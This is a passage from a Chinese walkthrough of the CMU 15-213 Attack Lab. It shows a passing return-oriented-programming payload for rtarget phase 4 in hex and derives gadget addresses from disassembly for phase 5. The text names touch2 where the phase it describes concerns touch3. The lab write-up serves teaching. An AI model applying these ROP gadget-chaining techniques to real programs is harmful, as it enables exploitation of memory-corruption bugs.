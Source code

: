 验证结果正确性：

```sh
➜  target1 git:(master) ✗ cat level4 | ./hex2raw | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

## 第五关

这一关是重复第三关，同样是把目标字符串的地址作为参数传入给函数 `touch2` 中。

1. 获取 `$rsp` 的地址
2. 将栈的起始位置加 `cookie` 的偏移量放到某寄存器中
3. 将寄存器的值放到 `$rdi` 中
4. 调用 `touch2` 函数

获取到 `%rsp` 的地址。`movq %rsp %rax` 的指令字节是：`48 89 e0`。

```x86asm
0000000000401a03 <addval_190>:
  401a03:   8d 87 41 48 89 e0       lea    -0x1f76b7bf(%rdi),%eax
  401a09:   c3                      retq
```
所以这一步的 `gadget` 地址是 `0x401a06`。

将 `%rax` 的值移到 `%rdi` 中，`movq %rax %rdi` 的指令字节是：`48 89 c7`。

```x86asm
00000000004019a0 <addval_273>:
  4019a0:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:   c3                      retq
```
所以这一步的 `gadget` 地址是 `0x4019a2`。

将偏移量的内容移到 `%rax` 中，`popq %rax` 的指令字节是 `58`。

```x86asm
00000000004019ca <getval_280>:
  4019ca:   b8 29 58 90 c3          mov    $0xc3905829,%eax
  4019cf:   c3                      retq
```
所以这一步的 `gadget` 地址是 `0x4019cc`。

将 `%eax` 的内容放到 `%edx` 中，`movl %eax %edx` 的指令字节是 `89 c2`。

```x86asm
00000000004019db <getval_481>:
  4019db:   b8 5c 89 c2 90          mov    $0x90c2895c,%eax
  4019e0:   c3                      retq
```
所以这一步的 `gadget` 地址是 `0x4019dd`。
